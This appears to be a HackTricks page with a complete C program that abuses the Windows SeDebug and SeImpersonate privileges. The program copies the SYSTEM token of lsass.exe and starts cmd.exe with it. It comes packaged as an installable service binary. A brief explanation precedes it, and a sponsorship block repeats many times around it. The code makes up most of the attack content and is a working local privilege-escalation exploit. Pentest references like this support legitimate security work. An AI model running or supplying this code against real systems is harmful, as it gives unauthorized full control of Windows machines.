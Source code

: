 

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>




<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>




<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>




<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>




<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>




<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>


# SeDebug + SeImpersonate copy token

The following code **exploits the privileges SeDebug and SeImpersonate** to copy the token from a **process running as SYSTEM** and with **all the token privileges**. \
In this case, this code can be compiled and used as a **Windows service binary** to check that it's working.\
However, the main part of the **code where the elevation occurs** is inside the **`Exploit`** **function**.\
Inside of that function you can see that the **process **_**lsass.exe**_** is searched**, then it's **token is copied**, and finally that **token is used to spawn a new **_**cmd.exe**_** with all the privileges of the copied token**.

**Other processes** running as SYSTEM with all or most of the token privileges are: _**services.exe**_**, **_**svhost.exe**_ (on of the firsts ones), _**wininit.exe**_**, **_**csrss.exe**_... (_remember that you won't be able to copy a token from a Protected process_). Moreover, you can use the tool [Process Hacker](https://processhacker.sourceforge.io/downloads.php) running as administrator to see the tokens of a process.

```c
#include <windows.h>
#include <tlhelp32.h>
#include <tchar.h>
#pragma comment (lib, "advapi32")

TCHAR* serviceName = TEXT("TokenDanceSrv");
SERVICE_STATUS serviceStatus;
SERVICE_STATUS_HANDLE serviceStatusHandle = 0;
HANDLE stopServiceEvent = 0;

//This function will find the pid of a process by name
int FindTarget(const char *procname) {

	HANDLE hProcSnap;
	PROCESSENTRY32 pe32;
	int pid = 0;
			
	hProcSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	if (INVALID_HANDLE_VALUE == hProcSnap) return 0;
			
	pe32.dwSize = sizeof(PROCESSENTRY32); 
			
	if (!Process32First(hProcSnap, &pe32)) {
			CloseHandle(hProcSnap);
			return 0;
	}
			
	while (Process32Next(hProcSnap, &pe32)) {
			if (lstrcmpiA(procname, pe32.szExeFile) == 0) {
					pid = pe32.th32ProcessID;
					break;
			}
	}
			
	CloseHandle(hProcSnap);
			
	return pid;
}


int Exploit(void) {
	
    HANDLE hSystemToken, hSystemProcess;
	HANDLE dupSystemToken = NULL;
    HANDLE hProcess, hThread;
    STARTUPINFOA si;
    PROCESS_INFORMATION pi;
	int pid = 0;


    ZeroMemory(&si, sizeof(si));
    si.cb = sizeof(si);
    ZeroMemory(&pi, sizeof(pi));

	// open high privileged process
	if ( pid = FindTarget("lsass.exe") ) 
		hSystemProcess = OpenProcess(PROCESS_QUERY_INFORMATION, FALSE, pid);
	else
		return -1;
	
	// extract high privileged token
    if (!OpenProcessToken(hSystemProcess, TOKEN_ALL_ACCESS, &hSystemToken)) {
        CloseHandle(hSystemProcess);
        return -1;
    }
	
	// make a copy of a token
	DuplicateTokenEx(hSystemToken, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &dupSystemToken);	

	// and spawn a new process with higher privs
    CreateProcessAsUserA(dupSystemToken, "C:\\windows\\system32\\cmd.exe", 
						NULL, NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);

    return 0;
}


void WINAPI ServiceControlHandler( DWORD controlCode ) {
	switch ( controlCode ) {
		case SERVICE_CONTROL_SHUTDOWN:
		case SERVICE_CONTROL_STOP:
			serviceStatus.dwCurrentState = SERVICE_STOP_PENDING;
			SetServiceStatus( serviceStatusHandle, &serviceStatus );

			SetEvent( stopServiceEvent );
			return;

		case SERVICE_CONTROL_PAUSE:
			break;

		case SERVICE_CONTROL_CONTINUE:
			break;

		case SERVICE_CONTROL_INTERROGATE:
			break;

		default:
			break;
	}
	SetServiceStatus( serviceStatusHandle, &serviceStatus );
}

void WINAPI ServiceMain( DWORD argc, TCHAR* argv[] ) {
	// initialise service status
	serviceStatus.dwServiceType = SERVICE_WIN32;
	serviceStatus.dwCurrentState = SERVICE_STOPPED;
	serviceStatus.dwControlsAccepted = 0;
	serviceStatus.dwWin32ExitCode = NO_ERROR;
	serviceStatus.dwServiceSpecificExitCode = NO_ERROR;
	serviceStatus.dwCheckPoint = 0;
	serviceStatus.dwWaitHint = 0;

	serviceStatusHandle = RegisterServiceCtrlHandler( serviceName, ServiceControlHandler );

	if ( serviceStatusHandle ) {
		// service is starting
		serviceStatus.dwCurrentState = SERVICE_START_PENDING;
		SetServiceStatus( serviceStatusHandle, &serviceStatus );

		// do initialisation here
		stopServiceEvent = CreateEvent( 0, FALSE, FALSE, 0 );

		// running
		serviceStatus.dwControlsAccepted |= (SERVICE_ACCEPT_STOP | SERVICE_ACCEPT_SHUTDOWN);
		serviceStatus.dwCurrentState = SERVICE_RUNNING;
		SetServiceStatus( serviceStatusHandle, &serviceStatus );

		Exploit();
		WaitForSingleObject( stopServiceEvent, -1 );

		// service was stopped
		serviceStatus.dwCurrentState = SERVICE_STOP_PENDING;
		SetServiceStatus( serviceStatusHandle, &serviceStatus );

		// do cleanup here
		CloseHandle( stopServiceEvent );
		stopServiceEvent = 0;

		// service is now stopped
		serviceStatus.dwControlsAccepted &= ~(SERVICE_ACCEPT_STOP | SERVICE_ACCEPT_SHUTDOWN);
		serviceStatus.dwCurrentState = SERVICE_STOPPED;
		SetServiceStatus( serviceStatusHandle, &serviceStatus );
	}
}


void InstallService() {
	SC_HANDLE serviceControlManager = OpenSCManager( 0, 0, SC_MANAGER_CREATE_SERVICE );

	if ( serviceControlManager ) {
		TCHAR path[ _MAX_PATH + 1 ];
		if ( GetModuleFileName( 0, path, sizeof(path)/sizeof(path[0]) ) > 0 ) {
			SC_HANDLE service = CreateService( serviceControlManager,
							serviceName, serviceName,
							SERVICE_ALL_ACCESS, SERVICE_WIN32_OWN_PROCESS,
							SERVICE_AUTO_START, SERVICE_ERROR_IGNORE, path,
							0, 0, 0, 0, 0 );
			if ( service )
				CloseServiceHandle( service );
		}
		CloseServiceHandle( serviceControlManager );
	}
}

void UninstallService() {
	SC_HANDLE serviceControlManager = OpenSCManager( 0, 0, SC_MANAGER_CONNECT );

	if ( serviceControlManager ) {
		SC_HANDLE service = OpenService( serviceControlManager,
			serviceName, SERVICE_QUERY_STATUS | DELETE );
		if ( service ) {
			SERVICE_STATUS serviceStatus;
			if ( QueryServiceStatus( service, &serviceStatus ) ) {
				if ( serviceStatus.dwCurrentState == SERVICE_STOPPED )
					DeleteService( service );
			}
			CloseServiceHandle( service );
		}
		CloseServiceHandle( serviceControlManager );
	}
}

int _tmain( int argc, TCHAR* argv[] )
{
	if ( argc > 1 && lstrcmpi( argv[1], TEXT("install") ) == 0 ) {
		InstallService();
	}
	else if ( argc > 1 && lstrcmpi( argv[1], TEXT("uninstall") ) == 0 ) {
		UninstallService();
	}
	else  {
		SERVICE_TABLE_ENTRY serviceTable[] = {
			{ serviceName, ServiceMain },
			{ 0, 0 }
		};
	
		StartServiceCtrlDispatcher( serviceTable );
	}	

	return 0;
}
```

**The code of this example was shared by an anonymous person.**


<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>




<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>




<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>




<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>




<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>




<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>


